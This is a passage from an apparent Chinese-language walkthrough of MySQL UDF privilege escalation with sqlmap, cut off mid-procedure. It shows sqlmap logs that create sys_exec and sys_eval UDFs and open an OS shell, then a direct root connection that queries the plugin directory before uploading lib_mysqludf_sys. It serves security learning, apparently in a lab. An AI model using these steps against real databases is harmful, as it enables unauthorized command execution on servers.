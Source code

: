 ```
[11:53:50] [INFO] the local file '/var/folders/bx/zb9__nb1591g_r8k78p5p0gr0000gn/T/sqlmap_5_qd1_y51533/lib_mysqludf_sysp478pm69.so' and the remote file './libsoxbd.so' have the same size (8040 B)
[11:53:50] [INFO] creating UDF 'sys_exec' from the binary UDF file
[11:53:50] [INFO] creating UDF 'sys_eval' from the binary UDF file
[11:53:50] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[11:53:50] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a]

No output
os-shell>
```

没有得到执行结果，查看func表也没有udf记录，未找到原因。

####半自动化

1. 获取plugin目录

   ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
           ___
          __H__
    ___ ___[']_____ ___ ___  {1.4.2.24#dev}
   |_ -| . [']     | .'| . |
   |___|_  [)]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:21:33 /2020-02-10/
   
   [13:21:34] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:21:34] [INFO] testing MySQL
   [13:21:34] [INFO] resumed: [['1']]...
   [13:21:34] [INFO] confirming MySQL
   [13:21:34] [INFO] resumed: [['1']]...
   [13:21:34] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:21:34] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
   sql-shell> select @@plugin_dir;
   [13:22:06] [INFO] fetching SQL SELECT statement query output: 'select @@plugin_dir'
   select @@plugin_dir [1]:
   [*] /usr/lib/x86_64-linux-gnu/mariadb18/plugin/
   
   sql-shell>
   ```

   得到plugin目录为`/usr/lib/x86_64-linux-gnu/mariadb18/plugin/`。

2. 上传lib_mysqludf_sys到plugin目录
